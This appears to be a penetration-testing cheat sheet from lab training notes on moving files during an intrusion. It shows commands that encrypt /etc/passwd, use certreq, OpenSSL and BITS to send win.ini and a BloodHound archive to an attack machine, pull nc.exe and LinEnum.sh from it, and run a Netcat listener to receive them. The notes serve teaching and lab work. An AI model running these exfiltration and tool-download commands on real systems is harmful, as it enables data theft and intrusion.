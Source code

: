 ### On Windows

- Encrypt files with [Invoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1)

> We can use any file transfer methods to get this file onto a target host. After the script has been transferred, it only needs to be imported as a module.

- `Import-Module .\Invoke-AESEncryption.ps1`
- `Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt` File Encryption example

### On Linux

- [OpenSSL](https://www.openssl.org/)
- `openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc` to encrypt /etc/passwd.
- `openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd` to decrypt

## Living off The Land

- [LOLBAS](https://lolbas-project.github.io/)
- [GTFOBins](https://gtfobins.github.io/)

### LOLBAS - Example with CertReq

- CertReq is an example but we could find other binaries as well for this purpose.
- [certreq](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe)
- `certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini` upload win.ini in our attack machine. This will send the file to our Netcat session, and we can copy-paste its contents.
- `sudo nc -lvnp 80` with the listener from our attack machine we should receive the file.

### GTFOBINS - Example with OpenSSL

- [GTFOBINS upload and download](https://gtfobins.github.io/#+file%20upload%20+file%20download)

- `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem` Create Certificate in our attack machine
- `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh` Stand up the Server in our attack machine
- `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh` Download File from the Compromised Machine

### Others Living off the Land tools

#### Bitsadmin

- [Bitsadmin Download Function](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)
- `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` File Download with Bitsadmin
- `Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` Download
- `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` Upload
